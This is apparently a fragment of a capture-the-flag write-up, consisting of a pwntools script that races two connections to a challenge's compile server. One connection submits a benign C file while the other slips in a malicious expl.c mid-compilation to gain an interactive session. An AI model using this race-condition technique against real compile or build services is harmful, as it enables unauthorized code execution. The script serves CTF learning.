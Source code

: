 below is the full exploit:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *
from base64 import b64encode
import asyncio

# =========================================================
#                          SETUP                         
# =========================================================
exe = './server.py'
context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]
host, port = '0.cloud.chals.io', 10840

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    ioval = initialize()
    ioval.sendlineafter(b': ', b'hygge.c')

    iomal = initialize()
    iomal.sendlineafter(b': ', b'hygge.c')

    payloadval = b64encode(open('primes.c', 'rb').read())
    ioval.sendlineafter(b': ', payloadval)

    payloadmal = b64encode(open('expl.c', 'rb').read())

    ioval.recvuntil(b'Compiling')
    iomal.sendlineafter(b': ', payloadmal)

    iomal.recvuntil(b'safe')
    iomal.close()
    
    ioval.interactive()

if __name__ == '__main__':
    exploit()
```
{% endcode %}
